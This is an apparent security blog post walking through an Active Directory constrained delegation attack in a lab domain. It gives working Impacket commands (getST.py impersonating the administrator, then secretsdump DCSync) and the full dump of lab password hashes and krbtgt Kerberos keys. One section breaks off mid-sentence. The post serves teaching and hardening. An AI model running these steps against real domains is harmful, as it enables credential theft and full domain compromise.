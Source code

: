 ```yaml
---
layout: post
title: Constrained Delegation With Impacket
subtitle: How Impacket Can Help You Tackle Constrained Delegation Attacks
tags: [IMPACKET]
---
```


# What Is A Constrained Delegation Attack

Constrained delegation is a feature in Microsoft's Active Directory that allows a service/account, to impersonate another service/account when accessing network resources. This feature is designed to facilitate authentication and authorization between different services in a network it allows access to a resource on behalf of another account.

One common scenario where constrained delegation is used is with the CIFS protocol, which allows users to access shared network folders. In this case, the CIFS constrained delegation permission is granted to a service/account to allow it to impersonate other accounts when accessing network resources.

In a constrained delegation attack, an attacker could use a compromised account (user or servicer account) with the CIFS constrained delegation permission to impersonate other users and access resources. This could allow the attacker to extract sensitive information or perform malicious actions. A great example of this could be a DCSync attack. 

A DCSync attack is a technique used by attackers to simulate the behavior of a domain controller and request sensitive credential information from Active Directory, such as password hashes for user accounts, potentially leading to a full compromise of the Active Directory environment. This is possible because the account that has delegation rights for CIFS can access that resource as any user, because they have been designated to do so.

## Exploitation With Impacket
In my lab I set up the account "Frodo" to have the `msds allowed to delegate to` attribute set to `CIFS/dc.lotr.local` (this is a extreme example but demonstrates how the attack works). With the CIFS constrained delegation permission, Frodo can impersonate any user or computer account to access SMB network resources, including the administrator account. Frodo can use his CIFS constrained delegation permission to create a TGT as the administrator user, he could then use that TGT to access SMB resources as the administrator. The CIFS delegation allows Frodo to delegate access to SMB shares on the Domain Controller as anyone.

The TGT could be used with impackets dcsync.py script to perform a DCSync, simulating the behavior of a domain controller to retrieve password data via domain replication.

### Enumeration
Using `get-doaminuser` via [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) shows them `msds-allowedtodelegateto` property set. On a engagement this could also be discovered via `bloodhound` 

![[Pasted image 20230508103605.png]]

### Exploitation With Impacket
Once the account was identified a service ticket was generated with `getST.py`, impersonating the domain admin
```
┌──(root㉿kali)-[~/impacket/examples]
└─# python3 getST.py -spn cifs/dc.lotr.local -impersonate administrator -dc-ip 10.10.1.46 'lotr/frodo:Press#123'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

The ticket was then exported in kali
```
┌──(root㉿kali)-[~/impacket/examples]
└─# export KRB5CCNAME=administrator.ccache
```

The DCSync was performed. Impacket connected to the domain controller via smb to perform the DCSync.
```
┌──(root㉿kali)-[~/impacket/examples]
└─# impacket-secretsdump -k dc.lotr.local -just-dc
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:81b08c3a5b56ccd94cdac3fb61ed7696:::
lotr.local\frodo:1104:aad3b435b51404eeaad3b435b51404ee:0f7421a8a3d0b0adcafa6862fd766818:::
lotr.local\gandalf:1105:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:187d42125902934be349948ef0377245:::
WORKSTATION$:1103:aad3b435b51404eeaad3b435b51404ee:4d0cf71699ba922a8f581496a7aba220:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:2549b882ce260c7b86971c8536cded9dd94eaebab852daf62679b80d4acc06a8
Administrator:aes128-cts-hmac-sha1-96:191dbbfec51eb5e792e4822ee59c6c39
Administrator:des-cbc-md5:b93df4324c4af2cd
krbtgt:aes256-cts-hmac-sha1-96:bb06066912e51660c16ce4733411eab7bfed58ec36b680a39ef4c080a4777181
krbtgt:aes128-cts-hmac-sha1-96:163a2ff7c458a1aa2b27170ec7a5f78c
krbtgt:des-cbc-md5:baa26efe7af8a770
lotr.local\frodo:aes256-cts-hmac-sha1-96:9f13810cfedfd252ba538f0ffe2e0bd6a9ddde4bfc1160d63dc5dd8a45df4011
lotr.local\frodo:aes128-cts-hmac-sha1-96:4782e0c124787bd62e3ef6c53ad81b06
lotr.local\frodo:des-cbc-md5:98f2682c19b0c810
lotr.local\gandalf:aes256-cts-hmac-sha1-96:410394573a6e1f74c24b18dab0f5b61ac76d3d411dee1b77442b6757dce0b8ab
lotr.local\gandalf:aes128-cts-hmac-sha1-96:16c13c6548997aea9f2f4257d0c806e7
lotr.local\gandalf:des-cbc-md5:329129dfa726851c
DC$:aes256-cts-hmac-sha1-96:7aaa5e08414a6ed3ef47ec2ae59be71fe5f434e884719a412ff6228dfc36adaf
DC$:aes128-cts-hmac-sha1-96:f668b00d05e52115dbc1a965fa129779
DC$:des-cbc-md5:c873a1e6d6132af8
WORKSTATION$:aes256-cts-hmac-sha1-96:d9927a3bb33c9549283c9bb06bebe7853abe9f37103c5874424faa1c67feeb2d
WORKSTATION$:aes128-cts-hmac-sha1-96:228d4eef165a3bb937c1f0370ae7a45b
WORKSTATION$:des-cbc-md5:19a7e3e96ef20d6d
[*] Cleaning up...
```

### Other SPN's Worth Noting
If a user or service account 

## Summary
While constrained delegation is intended to be a secure feature, it can become a vulnerability if not properly configured. Attackers can exploit misconfigured delegation rights to gain access to valuable data or escalate their privileges within a network. Therefore, it's crucial to understand how constrained delegation works and to ensure it is properly configured to prevent attackers from abusing it.